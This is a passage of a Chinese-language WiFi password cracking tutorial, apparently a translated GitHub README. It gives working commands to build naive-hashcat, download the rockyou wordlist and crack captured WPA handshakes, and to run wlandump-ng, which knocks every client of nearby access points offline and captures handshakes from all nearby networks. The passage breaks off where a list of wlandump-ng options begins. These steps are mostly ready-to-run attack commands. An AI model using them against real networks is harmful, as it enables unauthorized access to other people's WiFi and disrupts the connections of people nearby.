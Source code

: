 ### 利用 `naive-hashcat` 破解密码

```bash
# 克隆 naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 在 MacOS/OSX 上从原代码构建程序
./build-hashcat-osx.sh

# 下载 134MB rockyou字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

最后，运行 `naive-hashcat.sh`。将 `handshake.hccapx` 名称改成你从 [hashcat.net](https://hashcat.net/cap2hccapx/) 下载的文件名称。`cracked.pot`是输出文件名称。

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

再次感谢 [@harshpatel991](https://github.com/harshpatel991)，以及 [phillips321](http://www.phillips321.co.uk/) 关于如何在 OSX 上构建 hashcat 的[帖子](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/)。

## 使用 `wlandump-ng` 抓取 handshake

[@enilfodne](https://github.com/enilfodne) 提到 hachcat 社区有一个[更棒的工具](https://github.com/brannondorsey/wifi-cracking/issues/15)可以抓取 WPA 的 4-way handshakes。它是 hashcat 工具包的一部分，叫 [hcxtools](https://github.com/ZerBea/hcxtools) ，由 [ZerBea](https://github.com/ZerBea) 开发，名声已经超过了 `airdump-ng`。`wlandump-ng` 允许你一次性从每个附近的网络上全面抓取 handshake 信息，跳过 Wi-Fi 信道，以增加收集。

```bash
# 克隆 hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20

# 一旦你获得了抓取的文件，你可以利用以下命令将其转换成hashcat抓取格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` 命令行参数（使用 `h` 标志来获得完整列表）：
